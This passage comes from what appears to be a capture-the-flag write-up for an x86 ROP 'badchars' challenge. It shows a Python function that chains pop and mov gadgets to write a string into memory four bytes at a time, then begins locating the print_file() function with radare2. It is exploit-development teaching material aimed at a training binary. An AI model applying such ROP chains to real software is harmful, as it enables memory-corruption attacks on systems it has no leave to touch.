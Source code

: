 ```python
        if j > len(s):
            j = len(s)

        # 4 bytes to write
        esi = p32(int.from_bytes(s[i:j], 'little'))
        # address to write to
        edi = p32(addr + i)

        # fill mov args
        payload += p32(pop_regs) + esi + edi + ebp
        # write bytes
        payload += p32(mov_addr)
    return payload
```

### print_file()
> Find the `print_file` address and a single `pop` gadget
{: .prompt-tip }

First let's find the address of `print_file()` using
the command `afl`

![print-file-addr](/images/badchars/x86-print-file-addr.png)
